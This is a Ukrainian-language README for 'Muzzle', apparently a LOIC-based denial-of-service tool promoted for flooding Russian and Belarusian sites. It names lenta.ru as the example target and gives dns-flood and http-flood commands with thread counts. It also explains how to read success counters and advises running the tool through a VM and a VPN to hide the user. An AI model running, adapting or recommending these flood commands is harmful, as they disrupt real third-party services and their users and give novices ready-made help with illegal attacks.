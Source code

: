 # Чому?

Сучасні інструменти для створення тиску на сайти мають деяки або усі проблеми, особливо для недосвідчених користувачей:

1. Декілька компонент які мають буті встановлені та налаштовані (python etc.)
2. Багато спеціалізованих параметрів котрі не є зрозумілими для новачків.
3. Одна ip адреса тиску при тому що сучасні системи мають декілька веб- та днс серверів.

# Рішення
Muzzle - простий у використанні інструмент на основі ЛОІСу, котрий виявляє всі DNS та Web сервери пов'язані з певним доменом та створює їм стресові умови.
Програма дозволяє тиск тільки на .ru та .by домени. Ми допомагаемо браттям, але тікому іншому.

#Встановлення та налаштування

1. Любі інструменти такого роду мають встановлюватись на віртуальну машину для безпеки.
2. Користуйтесь VPN. Наприклад https://clearvpn.com пропонує безкоштовний аккаунт на рік при використанні промо коду SAVEUKRAINE.
3. Обирайте ціль та запускайте прогу.

# Приклади команд

muzzle sniff -d lenta.ru
	Виявити та роздрукувати DNS та Web сервери пов'язані з доменом lenta.ru.

muzzle dns-flood -d lenta.ru
muzzle dns-flood -d lenta.ru -t 25
	Тиск на всі DNS сервери що належать lenta.ru по UDP порту 53. 
	Кількість одночасних з'єднань до кожного сервера (потоків) - параметр -t, за змовчуванням - 40.
	Зростання показника Requested - це добре.

muzzle http-flood -d lenta.ru
muzzle http-flood -d lenta.ru -t 35
	Тиск на всі Web сервери що належать lenta.ru по TCP порту 80 (HTTP). 
	Кількість одночасних з'єднань до кожного сервера (потоків) - параметр -t, за змовчуванням - 40.
	Зростання показника Downloaded або принаймні Requested - це добре.

muzzle help 
	Перелік команд.

muzzle version
	Роздрук версії програми.

Повідомлення про нові версії: https://t.me/getmuzzle
Питання та пропозиції: https://t.me/+guqhldDxOMw4YWUx
